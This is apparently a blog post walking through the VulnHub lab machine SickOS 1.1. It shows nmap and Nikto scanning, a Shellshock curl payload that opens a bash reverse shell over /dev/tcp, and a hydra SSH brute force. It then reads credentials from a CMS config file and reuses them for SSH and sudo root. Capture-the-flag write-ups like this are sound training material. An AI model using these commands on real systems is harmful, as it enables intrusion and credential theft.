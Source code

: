 ```yaml
---
layout: post
title: "SickOS 1.1 Walkhrough"
tags: [hacking, lab]
---
```

![Sickos 1.1 Walkthrough]({{ site.url }}/img/sickos1.1-walkthrough.png)

This is a walkthrough of [SickOS 1.1](sickos1.1-url) found on [VulnHub](vulnhub-url). The objective is to compromise the VM, gain
root privileges, and find the flag. We need to treat this machine as a remote server, so we can't use any kernel tricks here.

After booting the virtual machine, I needed to find the IP address of the box, so I did a simple ping sweep.

{% highlight bash %}
nmap -n -sP 172.16.49.0/24
{% endhighlight %}

![SickOS 1.1 Ping Sweep]({{ site.url }}/img/sickos1.1-ping-sweep.png)

The IP address of the SickOS 1.1 server is 172.16.149.133. I knew this because the Kali VM IP address is 172.16.149.132. Now
that I have the IP of the SickOS server I need to identify any open ports. Running a nmap scan of the host will give me the 
information I need to get started:

{% highlight bash %}
nmap -n -Pn -sS -p - 172.16.149.133
{% endhighlight %}

![SickOS 1.1 Nmap Scan]({{ site.url }}/img/sickos1.1-nmap-scan.png)

The results show that we have what looks like Squid Proxy Server open on port 3128 and SSH on port 22. Next I want to run a 
Nikto scan to look for any low hanging fruit. Be sure to use the "-useproxy" flag so the scan runs through the proxy.

{% highlight bash %}
nikto -h http://172.16.149.133 -useproxy 172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 Nikto Scan]({{ site.url}}/img/sickos1.1-nikto-scan.png)

Some interesting results return from the Nikto scan. Here we can see that the "/cgi-bin/status" portion of the site is vulnerable
to ShellShock. We will use this an attack vector to exploit the server and gain access to the box. Open a second terminal window
and establish a netcat listener.

{% highlight bash %}
nc -lvnp 666
{% endhighlight %}

Now we exploit ShellShock using curl.
{%  highlight bash %}
curl -H "User-Agent: () { ;: }; /bin/bash -i >& /dev/tcp/172.16.149.132/666 0&>1" http://172.16.149.133/cgi-bin/status -x http://172.16.149.133:3128
{% endhighlight %}

![SickOS 1.1 ShellShock Exploit]({{ site.url }}/img/sickos1.1-shellshock-exploit.png)

After running the curl command, switch over to the terminal window that is running our Netcat listener. You should have been 
given a shell prompt.

![SickOS 1.1 Reverse Shell Prompt]({{ site.url }}/img/sickos1.1-reverse-shell-prompt.png)

Now that we have access on the box we need to gather some information. First I am going to check out the "/etc/passwd" file.

{%  highlight bash %}
cat /etc/passwd
{% endhighlight %}

![SickOS 1.1 /etc/passwd]({{ site.url }}/img/sickos1.1-etc-passwd.png)

In the results we see that an account exists with the username "sickos", a directory in "home", and that the user has shell access
on the box. Now I want to check out the "/etc/group" file for more information.

{%  highlight bash %}
cat /etc/group
{% endhighlight %}

![SickOS 1.1 /etc/group]({{ site.url }}/img/sickos1.1-etc-group.png)

The results show that the user "sickos" is part of the "adm" group. This is indicative of the user being able to use the sudo command to
access root. Armed with this info I am going to attempt bruteforce SSH to see if I can get the password. I figure I will let hydra
run while I poke around the box looking for any further useful information.

{% highlight bash %}
hydra -t 10 -l sickos -P /usr/share/wordlist/rockyou.txt -vV 172.16.149.133 ssh
{% endhighlight %}

I tried to get this started several times with no avail - looks like there might be something blocking it, so I am going to continue
gathering information on the box. Because this server is acting as a webserver - typically web files are hosted in "/var/www," so I am
going to change to the directory and list out all files.

{% highlight bash %}
cd /var/www/
ls
{% endhighlight %}

![SickOS 1.1 ls /var/www]({{ site.url.}}/img/sickos1.1-ls-var-www.png)

Here we see a directory called "wolfcms" - this contains the website and configuration files. Within the "wolfcms" dir there is a
file called "config.php." These config files typically have database usernames, passwords, and configuration settings for the 
website, so I am going to take a look.

{% highlight bash %}
cat config.php|head -20
{% endhighlight %}

![SickOS 1.1 config.php Contents]({{ site.url }}/img/sickos1.1-config.php-contents.png)

In the "config.php" is a database username and password. One thing about users' is they tend to use the same password everywhere,
so let's try using it with SSH and the "sickos" user. 

{% highlight bash %}
ssh sickos@172.16.149.133
{% endhighlight %}

The SSH username and pasword worked! Since we know "sickos" is in sudoes lets switch to "root" and see what is in the "/root"
directory.

{% highlight bash %}
sudo su -
# enter sickos password
ls
{% endhighlight %}

Inside the "/root" directory is the flag, cat the file out and we have completed the objective!

![SickOS 1.1 Cat Flag]({{ site.url }}/img/sickos1.1-cat-flag.png)

[sickos1.1-url]: https://www.vulnhub.com/entry/sickos-11,132/
[vulnhub-url]: https://www.vulnhub.com/
